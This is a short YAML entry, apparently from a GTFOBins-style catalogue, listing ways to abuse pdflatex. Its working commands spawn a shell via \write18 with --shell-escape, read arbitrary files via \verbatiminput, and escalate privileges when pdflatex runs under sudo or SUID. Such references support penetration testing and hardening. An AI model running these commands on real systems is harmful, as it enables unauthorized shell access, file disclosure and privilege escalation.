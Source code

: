 functions:
  shell:
    - code: |
        pdflatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  file-read:
    - description: The read file will be part of the output.
      code: |
        pdflatex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        pdftotext article.pdf -
  sudo:
    - description: The read file will be part of the output.
      code: |
        sudo pdflatex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        pdftotext article.pdf -
    - code: |
        sudo pdflatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  limited-suid:
    - code: |
        ./pdflatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
---
